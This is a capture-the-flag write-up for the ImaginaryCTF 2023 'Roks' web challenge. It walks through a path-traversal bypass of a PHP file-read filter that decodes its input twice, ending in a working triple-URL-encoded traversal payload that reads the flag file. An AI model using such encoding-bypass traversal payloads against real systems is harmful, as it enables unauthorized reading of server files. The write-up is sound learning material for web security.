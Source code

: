 ```yaml
---
name: Roks (2023)
event: Imaginary 2023
category: Web
description: Writeup for Roks (Web) - Imaginary (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Roks

## Description

> My rock enthusiast friend made a website to show off some of his pictures. Could you do something with it?

Source code is provided, so let's review it before we check [the site](http://roks.chal.imaginaryctf.org).

## Recon

The `Dockerfile` shows us where to look for the flag.

{% code overflow="wrap" %}
```dockerfile
COPY flag.png /
```
{% endcode %}

`index.php` has a function to GET a random image.

{% code overflow="wrap" %}
```js
function requestRandomImage() {
    var imageList = [
        "image1",
        "image2",
        "image3",
        "image4",
        "image5",
        "image6",
        "image7",
        "image8",
        "image9",
        "image10",
    ];

    var randomIndex = Math.floor(Math.random() * imageList.length);
    var randomImageName = imageList[randomIndex];

    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function () {
        if (xhr.readyState === 4 && xhr.status === 200) {
            var blob = xhr.response;
            var imageUrl = URL.createObjectURL(blob);
            document.getElementById("randomImage").src = imageUrl;
        }
    };

    xhr.open("GET", "file.php?file=" + randomImageName, true);
    xhr.responseType = "blob";
    xhr.send();
}
```
{% endcode %}

You'll notice that it makes a request to `file.php` with a user-controllable GET parameter, possible LFI. Checking the source, we'll see that parameters including `/` or `.` will be blocked, preventing us from using directory traversal, e.g. `../../`.

{% code overflow="wrap" %}
```php
$filename = urldecode($_GET["file"]);
if (str_contains($filename, "/") or str_contains($filename, ".")) {
    $contentType = mime_content_type("stopHacking.png");
    header("Content-type: $contentType");
    readfile("stopHacking.png");
} else {
    $filePath = "images/" . urldecode($filename);
    $contentType = mime_content_type($filePath);
    header("Content-type: $contentType");
    readfile($filePath);
}
```
{% endcode %}

## Solution

We load the site and click the `get rok picture`. Each time, it retrieves a new random rock picture. The URL doesn't change but we know from the source code, we can simply access a URL like: http://roks.chal.imaginaryctf.org/file.php?file=image1

We try LFI: http://roks.chal.imaginaryctf.org/file.php?file=../../../flag.png

As expected, we get the `stopHacking.png` which tells us to `STOP HACKING OUR COMPUTER.. YOU HACKERS`.

Let's try with URL encoding: `%2e%2e%2f%2e%2e%2f%2e%2e%2fflag.png`

No difference, but I realised we aren't allowed a single dot in the string, so tried `%2e%2e%2f%2e%2e%2f%2e%2e%2fflag%2epng` but no luck.

Tried to double-URL encode: `%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66flag%25%32%65png`

Still no luck, so I tried URL encode with unicode: `%u002e%u002e%u002f%u002e%u002e%u002f%u002e%u002e%u002fflag%u002epng`

This time, we get some errors.

{% code overflow="wrap" %}
```txt
Warning: mime_content_type(images/%u002e%u002e%u002f%u002e%u002e%u002f%u002e%u002e%u002fflag%u002epng): Failed to open stream: No such file or directory in /var/www/html/file.php on line 9

Warning: Cannot modify header information - headers already sent by (output started at /var/www/html/file.php:9) in /var/www/html/file.php on line 10

Warning: readfile(images/%u002e%u002e%u002f%u002e%u002e%u002f%u002e%u002e%u002fflag%u002epng): Failed to open stream: No such file or directory in /var/www/html/file.php on line 11
```
{% endcode %}

Hmmm OK so reviewing the code again, notice that it first URL decodes the filename.

{% code overflow="wrap" %}
```php
$filename = urldecode($_GET["file"]);
```
{% endcode %}

Next, it checks if the filename contains `/` or `.` and if it doesn't, it will URL decode the filename a second time.

{% code overflow="wrap" %}
```php
$filePath = "images/" . urldecode($filename);
```
{% endcode %}

This made me think my approach of double URL encoding was correct, I'd just failed to directory traverse far enough since `/var/www/html/images/` requires `../../../../` to get back to the root directory: `%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66flag%25%32%65png`

Still doesn't work 😬 Maybe I need to triple URL encode: `%2525%2532%2565%2525%2532%2565%2525%2532%2566%2525%2532%2565%2525%2532%2565%2525%2532%2566%2525%2532%2565%2525%2532%2565%2525%2532%2566%2525%2532%2565%2525%2532%2565%2525%2532%2566%2525%2536%2536%2525%2536%2563%2525%2536%2531%2525%2536%2537%2525%2532%2565%2525%2537%2530%2525%2536%2565%2525%2536%2537`

Yep, that did the trick! We get a PNG image containing the flag. I'm too lazy to type it out, so I extract the text from the image.

{% code overflow="wrap" %}
```bash
sudo apt-get install tesseract-ocr
```
{% endcode %}

{% code overflow="wrap" %}
```bash
tesseract file.png stdout
ictf{tr4nsv3rsing Ov3r_rOk5_6a3367}
```
{% endcode %}

Tesseract got 4 characters wrong 🙄 Manually corrected the flag!

Flag: `ictf{tr4nsv3rs1ng_0v3r_r0k5_6a3367}`
